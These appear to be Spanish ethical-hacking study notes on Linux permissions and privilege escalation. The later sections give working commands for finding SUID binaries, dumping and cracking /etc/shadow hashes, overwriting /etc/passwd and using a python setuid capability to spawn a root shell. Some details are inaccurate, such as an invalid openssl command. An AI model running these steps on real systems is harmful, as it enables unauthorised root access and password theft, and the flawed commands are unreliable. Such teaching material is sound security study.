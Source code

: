 # Lectura de permisos
<p align="center">
  <img width="650" height="325" src="https://raw.githubusercontent.com/w0lfst/Apuntes-Hacking-Etico/main/assets/images/permisos.png">
</p>

> `X` Fichero: ejecutable | directorio: atravesar (cd) 
***
## Permisos formato decimal

|rwx | r-x |r-x |
|---|---|---|
|7|5|5|
- 7 = 1+2+4
- 5 = 1+4
- 5 = 1+4

La posicion se cuenta desde la derecha:
- x > 1
- w > 2
- r > 4

> Todo esta convertido de binario a decimal. Para saber como convertir mira el siguiente punto.

### Convertir de binario a decimal

|r-x | r-- |-w- |
|---|---|---|
|101|100|010|
|5|4|2|

Contar la posicion desde la derecha 0 1 2 
- Solo operamos con las posiciones que tengan un 1.
- Elevamos 2 a cada posicion:
  - 2^0 + 2^2 = 1 + 4 = 5
  - 2^2 = 4
  - 2^1 = 2

***
## Permisos avanzados

```bash
chattr +i -V fichero.txt
```
- `+i` Añadir flag que impide borrar el fichero hasta al usuario **root**.
- `-V` Muestra todo lo que realiza el comando.

> Ver los permisos especiales `lsattr` 

***

## Explotación permisos SUID
1. Asignar un permiso SUID, por ejemplo, el comando find es 755, con chmod añadimos un 4 al permiso del archivo

```bash
chmod 4755 /usr/bin/find
```

2. Con el comando `id` podemos ver los permisos SUID que tenemos.
3. Buscariamos en [GTFOBins](https://gtfobins.github.io/) el permiso que tenemos, en este caso, find. 

## Explotacion permisos

Buscar permisos SUID: 
```bash
find \-perm -4000  2>/dev/null 
```

Para evitar que salgan errores en el escaneo:
1. En bash el error se gestiona a trave del numero 2.
2. Redirigimos el error a /dev/null → 2>/dev/null 
		
Buscar archivos con permisos de escritura: 
```bash
find \-writable 2>/dev/null 
```
### Ejemplos ataque:
Si tenemos permiso para ver el archivo shadows podremos ver las contraseñas de los usuarios hasheadas en un formato sha-512.
> Comprobamos el tipo de hash con `cat /etc/login.defs | grep "ENCRYPT_METHOD"`


1. Desencriptaremos las contraseñas por fuerza bruta, por ejemplo con el diccionario rockyou.
2. Exportamos el hash:
```bash
cat /etc/shadow | grep "user" > hash
```
4. Crackemos:
```bash
john --wordlist=/usr/share/wordlists/rockyou hash 
```
6. Ver contraseña:
```bash
john --show hash
```

Si tenemos permiso de escritura en /etc/passwd:

1. Nos creamos una contraseña:
```bash
openssl nueva-contraseña
```
4. Veremos un hash y lo copiamos.
5. Con hash y hashid podemos saber en que formato esta hecho.
6. Modificamos el /etc/passwd y ponemos el hash que hemos generado para asi loguearnos como ese usuario con la contraseña creada anteriormente.

## Capabilities

Asignaremos un capabilite para realizar la prueba:
```bash
setcap cap_setuid+ep /usr/bin/python3.9
```
En este caso estamos asignando una capabilitie de tipo setuid, podemos buscar distintos tipos en internet.
Para obtener las capabilities que tenemos asignadas actualmente:
```bash
cd /
getcap -r / 2>/dev/null
```

En este caso encontraremos una capabilitie de python tipo `cap_setuid+ep`.  
Aprovecharemos esta capabilitie para lanzarnos una bash con privilegios de root:
```bash
python3.9 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

